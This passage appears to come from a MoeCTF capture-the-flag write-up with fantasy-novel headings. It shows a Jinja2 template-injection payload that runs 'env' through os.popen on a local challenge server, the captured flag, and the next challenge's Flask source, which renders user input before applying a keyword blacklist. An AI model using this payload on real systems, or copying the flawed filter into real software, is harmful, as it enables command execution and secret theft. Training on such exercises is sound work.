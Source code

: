 ```
http://127.0.0.1:40563/?username={{cycler.__init__.__globals__['os'].popen('env').read()}}&password=1
```

```
moectf{02941eab-7adb-d9d0-69bc-4a2dc9086bfa}
```

## 21 第二十一章 往生漩涡·言灵死局

> 往生漩涡的边缘，血浪滔天。万魂幡摇动间，无数怨魂从漩涡中爬出，化作实体化的血色魔兵。为首魔修身高丈二，血袍上绣着九颗噬心图案——正是噬心魔宗九心长老！

```python
from flask import Flask, request, render_template, render_template_string
app = Flask(__name__)

blacklist = ["__", "global", "{{", "}}"]

@app.route('/')
def index():
    if 'username' in request.args or 'password' in request.args:
        username = request.args.get('username', '')
        password = request.args.get('password', '')

        if not username or not password:
            login_msg = """
            <div class="login-result" id="result">
                <div class="result-title">阵法反馈</div>
                <div id="result-content"><div class='login-fail'>用户名或密码不能为空</div></div>
            </div>
            """
        else:
            login_msg = render_template_string(f"""
            <div class="login-result" id="result">
                <div class="result-title">阵法反馈</div>
                <div id="result-content"><div class='login-success'>欢迎：{username}</div></div>
            </div>
            """)

            for blk in blacklist:
                if blk in username:
                    login_msg = """
                    <div class="login-result" id="result">
                        <div class="result-title">阵法反馈</div>
                        <div id="result-content"><div class='login-fail'>Error</div></div>
                    </div>
                    """
    else:
        login_msg = ""

    return render_template("index.html", login_msg=login_msg)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```
